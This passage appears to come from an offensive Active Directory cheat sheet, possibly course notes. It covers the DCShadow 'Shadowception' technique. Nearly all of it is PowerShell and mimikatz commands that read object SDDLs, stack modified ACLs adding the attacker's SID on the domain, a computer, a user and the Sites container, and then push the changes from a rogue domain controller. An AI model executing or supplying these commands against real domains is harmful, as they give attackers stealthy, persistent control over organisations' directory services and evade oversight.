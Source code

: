 ```
mimikatz # lsadump::dcshadow /push        # Do not need Domain Admin
```

### Shadowception

- Get the Security Descriptor Definition Language (SDDL) of an object

```
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=domain,DC=local")).psbase.ObjectSecurity.sddl
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=domain,DC=local")).psbase.ObjectSecurity.sddl | Set-Clipboard        # Copy to clipboard
```

- Shadowception walkthrough

```
Get the Security Descriptor Definition Language (SDDL) of the domain object
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=domain,DC=local")).psbase.ObjectSecurity.sddl

Append the 3 domain object ACE values from above with our user's SID at the end
mimikatz # lsadump::dcshadow /stack /object:DC=domain,DC=local /attribute:ntSecurityDescriptor /value:<modified ACL>        # /stack means you will only need to /push one time to perform all the stucked changes in the rogue server

Get the Security Descriptor Definition Language (SDDL) of the attacker computer object
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=mcorp-student13,CN=Computers,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

Append the write property on the attacker computer object ACE values from above with our user's SID at the end
mimikatz # lsadump::dcshadow /stack /object:mcorp-student13 /attribute:ntSecurityDescriptor /value:<modified ACL>        # /stack means you will only need to /push one time to perform all the stucked changes in the rogue server

Get the Security Descriptor Definition Language (SDDL) of the target user object
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=mcorp-root13user,CN=Users,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

Append the write property on the target user object ACE values from above with our user's SID at the end
mimikatz # lsadump::dcshadow /stack /object:root13user /attribute:ntSecurityDescriptor /value:<modified ACL>        # /stack means you will only need to /push one time to perform all the stucked changes in the rogue server

Get the Security Descriptor Definition Language (SDDL) of the Sites object in the Configuration container
PS C:\> (New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Sites,CN=Configuration,DC=domain,DC=local")).psbase.ObjectSecurity.sddl

Append the write property on the Sites object in the Configuration container ACE values from above with our user's SID at the end
mimikatz # lsadump::dcshadow /stack /object:CN=Sites,CN=Configuration,DC=domain,DC=local /attribute:ntSecurityDescriptor /value:<modified ACL>        # /stack means you will only need to /push one time to perform all the stucked changes in the rogue server

mimikatz # lsadump::dcshadow

mimikatz # lsadump::dcshadow /push
```

